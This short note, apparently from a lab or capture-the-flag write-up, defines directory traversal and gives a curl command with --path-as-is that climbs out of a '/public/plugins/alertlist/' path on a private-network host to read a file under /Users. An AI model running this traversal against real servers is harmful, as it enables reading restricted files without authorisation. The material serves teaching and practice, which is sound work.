 

Directory traversal, also known as path traversal or directory climbing, is **a vulnerability in a web application server caused by a HTTP exploit**. The exploit allows an attacker to access restricted directories, execute commands, and view data outside of the web root folder where application content is stored.


we can use `curl` with `--path-as-is` which will alow us to send path as it is.
`curl --path-as-is http://192.168.243.193:3000/public/plugins/alertlist/../../../../../../../Users/install.txt`

